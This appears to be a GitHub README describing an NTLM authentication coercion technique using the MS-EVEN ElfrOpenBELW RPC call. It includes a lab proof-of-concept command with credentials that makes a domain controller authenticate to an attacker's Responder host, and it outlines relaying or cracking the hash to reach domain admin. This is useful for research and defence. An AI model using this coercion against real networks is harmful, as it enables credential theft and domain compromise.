 # MS-EVEN - Remote call to ElfrOpenBELW (opnum 9)

## Summary

 - **Protocol**: [[MS-EVEN]: EventLog Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f)

 - **Protocol UUID**: 82273fdc-e32a-18c3-3f78-827929dc23ea

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\eventlog`

 - **Function name**: [`ElfrOpenBELW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/4db1601c-7bc2-4d5c-8375-c58a6f8fc7e1)

 - **Function operation number**: `9`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\eventlog` and bind to the desired [`MS-EVEN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) protocol (with uuid `82273fdc-e32a-18c3-3f78-827929dc23ea` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-EVEN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\eventlog` This pipe is connected to the protocol [[MS-EVEN]: EventLog Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) and allows to call RPC functions of this protocol. We will then call the remote [`ElfrOpenBELW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/4db1601c-7bc2-4d5c-8375-c58a6f8fc7e1) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
ElfrOpenBELW('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NTSTATUS ElfrOpenBELW(
   [in] EVENTLOG_HANDLE_W UNCServerName,
   [in] PRPC_UNICODE_STRING BackupFileName,
   [in] unsigned long MajorVersion,
   [in] unsigned long MinorVersion,
   [out] IELF_HANDLE* LogHandle
 );
```

## References

 - Documentation of protocol [MS-EVEN]: EventLog Remoting Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f

 - Documentation of function `ElfrOpenBELW`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/4db1601c-7bc2-4d5c-8375-c58a6f8fc7e1